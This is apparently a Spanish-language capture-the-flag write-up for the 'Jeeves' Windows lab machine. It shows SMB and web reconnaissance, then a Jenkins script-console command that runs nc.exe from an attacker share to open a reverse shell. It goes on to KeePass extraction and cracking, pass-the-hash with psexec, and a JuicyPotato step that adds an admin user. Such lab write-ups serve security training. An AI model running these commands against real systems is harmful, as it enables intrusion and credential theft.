 ```yaml
---
title: "Jeeves"
description: "Jeeves"
pubDate: 2025-05-20
---
```


https://www.youtube.com/watch?v=TwJiEWjI6Go

# Fase de reconocimiento

\#win

## Puertos:

80
445
50000 Jetty

## SMB

````
crackmapexec smb <ip>
````

````
smbclient -L <ip> -N
````

````
smbmap -H <ip>
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240513202009.png)

## Fuzzing

````
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
````

# Fase de ataque

En al ruta del Jenkins está expuesto el "Administrar Jenkins" desde donde se puede enviar una reverse shell.
Como es Windows:

1. Compartirnos el nc.exe por un recurso compartido

````
impacket-smbserver smbFolder $(pwd) -smb2support
````

2. Ejecutamos a través del recurso compartido un reverse shell en Jenkins

````
println "\\\\<ipa>\\smbFolder\\nc.exe -e cmd <ipa> 443".execute().text
````

3. Nos ponemos en escucha

````
rlwrap nc -nlvp 443
````

\[-\] ==pwned!==

# Privilege Escalation

## 1 Forma

### KeePass Crack

1. Encontramos el archivo .kdbx en el equipo
1. Copiamos en el recurso compartido

````
copy <archivo> \\<ipa>\smbFolder\<archivo>
````

3. Instalamos KeePass

````
apt install keepassxc
````

4. Convertimos el archivo

````
keepass2john <archivo.kdbx>
````

5. Crackeamos para conseguir la contraseña

````
john --wordlist=/usr/share/wordlist/rockyou.txt <arhivohash>
````

Encontramos en KeePass un hash= hash:==hash==

### Pass The Hash

Probamos el hash encontrado con crackmapexec

````
crackmapexec smb <ip> -u 'Administrador' -H '<hash>'
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240513204249.png)
Nos conectamos con el Hash

````
psexec.py WORKGROUP/Administrator@<ip> -hashes :<hash>
````

\[+\] ==pwned!==
Ver archivos ocultos windows

````
dir /r /s
````

## 2 Forma

Ver privilegios

````
whoami /priv
````

Como tenemos privilegios SeImpersonatePrivilege
Copiamos el JuicyPotato por recurso compartido

````
copy \\<ipa>\smbFolder\Juicy.exe JP.exe
````

Creamos un usuario con privilegios

````
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user test pass1234 /add" -l 1337
````

Cambiamos el registro
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240513205400.png)
Probamos que sea Admin

````
crackmapexec smb <ip> -u 'test' -p 'pass1234'
````

Nos conectamos

````
psexec.py WORKGROUP/test@<ip> cmd.exe
````

\[+\] ==pwned!==
Crear recurso compartido en su caso

````
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net share folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337
````
